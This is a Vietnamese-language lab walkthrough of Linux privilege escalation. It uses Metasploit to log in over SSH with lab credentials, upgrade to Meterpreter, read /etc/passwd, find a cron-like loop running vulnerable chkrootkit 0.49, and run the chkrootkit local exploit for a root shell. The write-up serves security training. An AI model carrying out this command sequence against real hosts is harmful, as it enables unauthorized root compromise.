




# Linux Privilege Escalation: Exploiting A Vulnerable Program

Target IP: `192.15.244.3`

SSH Credentials: `jackie:password`

`ip -br -c a`

	192.15.244.2/24

`service postgresql start && msfconsole -q`

`db_status`

`setg RHOSTS 192.15.244.3`

`setg RHOST 192.15.244.3`

`workspace -a Linux_Privesc`

Thực hiện quét nmap

`db_nmap -sV 192.15.244.3`

    22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)

Ta xác định có SSH, và được cung cấp thông tin đăng nhập khi vào lab nên sẽ không brute-force để tìm thông tin đăng nhập nữa

Exploitation - SSH

`search ssh_login`

`use auxiliary/scanner/ssh/ssh_login`

`options`

`set USERNAME jackie`

`set PASSWORD password`

`run`

-> sau khi run thành công nó không vào thẳng vào session

`sessions`

	1 shell unknown  SSH jackie:password (192.15.244.3:22)

`sessions 1`

`/bin/bash -i`

`pwd`

	/home/jackie

`whoami`

	jackie

`cat /etc/*issue`

	Ubuntu 18.04.3 LTS \n \l

`uname -r`

    5.4.0-88-generic

CTRL+Z -> trở về ko làm mất session

Leo quyền bằng lệnh đơn giản trong 1 số trường hợp thành công

`sessions -u 1`

Đợi xử lí xong 

`sessions`

`sessions 2`

`sysinfo`

    Computer     : 192.15.244.3
    OS           : Ubuntu 18.04 (Linux 5.4.0-131-generic)
    Architecture : x64
    BuildTuple   : i486-linux-musl
    Meterpreter  : x86/linux

`getuid`

	Server username: no-user @ victim-1 (uid=1000, gid=1000, euid=1000, egid=1000)

`shell`

`/bin/bash -i`

`cat /etc/passwd`

`ps aux`

Kiểm tra tệp nhị phân `/bin/check-down`

`cat /bin/check-down`

    #!/bin/bash
    while :
    do
            /usr/local/bin/chkrootkit/chkrootkit -x > /dev/null 2>&1
            sleep 60
    done

📌 Tệp nhị phân `/usr/local/bin/chkrootkit/chkrootkit` được thực thi mỗi 60 giây.

Chkrootkit < 0.50 is vulnerable to local privilege escalation vulnerability

Kiểm tra phiên bản chkrootkit

`chkrootkit -V`

	chkrootkit version 0.49

CTRL+Z

## Privilege Escalation

Kỹ thuật này sẽ phụ thuộc vào phiên bản nhân Linux mục tiêu và phiên bản phân phối hệ điều hành.

Cần phải liệt kê thủ công một chương trình dễ bị tấn công leo thang đặc quyền, trong trường hợp này là Chkrootkit phiên bản 0.49.

`search chkrootkit`

`use exploit/unix/local/chkrootkit`

`set CHKROOTKIT /bin/chkrootkit`

`set SESSION 2`

`set LHOST 192.15.244.2`

`run`

`/bin/bash -i`

